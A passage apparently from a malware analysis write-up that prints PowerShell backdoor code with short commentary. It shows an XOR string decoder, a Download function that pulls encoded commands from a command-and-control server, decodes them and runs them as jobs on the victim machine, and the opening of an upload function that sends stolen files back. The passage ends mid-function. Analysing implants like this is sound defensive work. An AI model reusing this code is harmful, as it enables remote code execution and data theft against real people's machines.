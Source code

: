 ```
 $len = $encstr.Length  
 $j = 0  
 $i = 0  
 $comletter = ""  
 while($i -lt $len)  
 {  
  $j = $j % 160    
  $asciidec = $encstr\[$i\] -bxor $key\[$j\]  
  $dec = \[char\]$asciidec  
  $comletter += $dec  
  $j++  
  $i++  
 }return $comletter  
}
```

The next block is for getting the information like environment, recent folders version, it also queries for the running tasks and systeminfo. Next code is to decode the commands send by the C2 and to execute on the victim machine.

```
function Download  
{  
 $downname = $LocalID + ".down"  
 $delphppath = $SERVER\_ADDR + "del.php"  
 $downpsurl = $SERVER\_ADDR + $downname  
 $codestring = (New-Object System.Net.WebClient).DownloadString($downpsurl)  
 $comletter = decode $codestring  
 $decode = $executioncontext.InvokeCommand.NewScriptBlock($comletter)  
 $RunningJob = Get-Job -State Running  
 if($RunningJob.count -lt 3)  
 {  
  $JobName = $RunningJob.count + 1  
  Start-Job -ScriptBlock $decode -Name $JobName  
 }  
 else  
 {  
  $JobName = $RunningJob.count  
  Stop-Job -Name $RunningJob.Name  
  Remove-Job -Name $RunningJob.Name  
  Start-Job -ScriptBlock $decode -Name $JobName  
 }  
 $down\_Server\_path = $delphppath + "?filename=$LocalID"  
 $response = \[System.Net.WebRequest\]::Create($down\_Server\_path).GetResponse()  
 $response.Close()  
}
```

Download function is use to download the commands sent by the C2 server and the upload function is used to upload the stolen information as discussed earlier.

```
function UpLoadFunc($logpath)  
{  
 $Url = $SERVER\_ADDR + $UP\_URI  
 $bReturn = $True  
 $testpath = Test-Path $logpath  
 if($testpath -eq $False){return $bReturn}  
 $hexdata = \[IO.File\]::ReadAllText($logpath)  
 $encletter = decode $hexdata  
 $nEncLen = $encletter.Length  
 $LF = "\`r\`n"  
 $templen = 0x100000  
 $sum = 0  
 do  
```